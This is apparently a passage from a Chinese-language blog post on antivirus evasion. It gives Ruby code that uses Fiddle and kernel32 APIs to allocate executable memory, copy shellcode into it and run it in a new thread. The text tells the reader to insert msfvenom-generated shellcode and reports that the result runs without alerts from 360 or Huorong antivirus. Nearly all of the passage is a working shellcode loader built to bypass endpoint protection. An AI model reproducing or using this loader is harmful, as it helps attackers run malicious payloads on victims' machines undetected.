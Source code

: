 ruby源码：

```
require 'fiddle'
require 'fiddle/import'
require 'fiddle/types'


shellcode = ""

include Fiddle

kernel32 = Fiddle.dlopen('kernel32')

ptr = Function.new(kernel32['VirtualAlloc'], [4,4,4,4], 4).call(0, shellcode.size, 0x3000, 0x40)

Function.new(kernel32['VirtualProtect'], [4,4,4,4], 4).call(ptr, shellcode.size, 0, 0)

buf = Fiddle::Pointer[shellcode]

Function.new(kernel32['RtlMoveMemory'], [4, 4, 4],4).call(ptr, buf, shellcode.size)

thread = Function.new(kernel32['CreateThread'],[4,4,4,4,4,4], 4).call(0, 0, ptr, 0, 0, 0)

Function.new(kernel32['WaitForSingleObject'], [4,4], 4).call(thread, ‐1)

```

将msfvenom生成的shellcode稍微转换后，写入代码中。

![06925babf7f6d8937300210a473e8d83](images/2020.05-bypass-07/13.png)

使用命令`ruby shell.rb`执行，360和火绒没有异常行为报警。
